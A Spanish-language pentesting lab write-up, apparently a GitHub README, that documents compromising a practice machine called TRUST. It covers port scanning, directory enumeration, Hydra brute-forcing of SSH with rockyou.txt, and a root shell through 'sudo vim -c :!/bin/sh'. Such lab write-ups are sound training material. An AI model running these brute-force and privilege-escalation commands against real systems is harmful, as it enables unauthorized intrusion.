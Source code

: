 # Lab de Pentesting: Escalada de privilegios en máquina TRUST

Este repositorio documenta el proceso paso a paso para comprometer y escalar privilegios en la máquina objetivo con IP \`172.18.0.2\`.

---

## Resumen

El objetivo principal fue identificar servicios activos, realizar enumeración, obtener acceso mediante fuerza bruta y finalmente escalar privilegios para obtener control total del sistema.

---

## Herramientas utilizadas

- \`ping\`
- \`nmap\`
- \`gobuster\`
- \`hydra\`
- \`ssh\`
- \`vim\`
- Diccionario \`rockyou.txt\`

---

## Pasos realizados

### 1. Verificar conectividad con ping

\`\`\`bash
ping -c 4 172.18.0.2
\`\`\`
![Ping a la IP](screenshots/ping.PNG)

Se confirmó que el objetivo responde a la red.

---

### 2. Escaneo completo de puertos con Nmap

\`\`\`bash
nmap -sV -sC -p- 172.18.0.2 --open -oN scanPuertos.txt
\`\`\`

Detectamos los puertos abiertos:
- Puerto 22 (SSH)
- Puerto 80 (HTTP)

---

### 3. Enumeración de directorios HTTP con Gobuster

\`\`\`bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://172.18.0.2 -x php,html,xml,txt,json
\`\`\`

Se descubrió el archivo \`secret.php\`.

---

### 4. Análisis del archivo \`secret.php\`

Al visitar \`http://172.18.0.2/secret.php\` encontramos un nombre: **Mario**.

---

### 5. Ataque de fuerza bruta SSH con Hydra

Intentamos acceder vía SSH con el usuario \`mario\` usando el diccionario \`rockyou.txt\`:

\`\`\`bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -v ssh://172.18.0.2
\`\`\`

Se logró obtener la contraseña correcta.

---

### 6. Acceso vía SSH

Conectamos exitosamente a la máquina como usuario \`mario\`.

---

### 7. Enumeración para escalada de privilegios

Ejecutamos:

\`\`\`bash
sudo -l
\`\`\`

Se observó que \`mario\` puede ejecutar \`vim\` con privilegios de root sin contraseña.

---

### 8. Explotación para obtener shell root

Usando la técnica encontrada en [GTFOBins - Vim](https://gtfobins.github.io/), ejecutamos:

\`\`\`bash
sudo vim -c ':!/bin/sh'
\`\`\`

Conseguimos un shell con privilegios root y control total de la máquina.

---

## Resultados finales

- Acceso root conseguido en la máquina objetivo.
- Escalada de privilegios exitosa mediante abuso de sudo con vim.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.
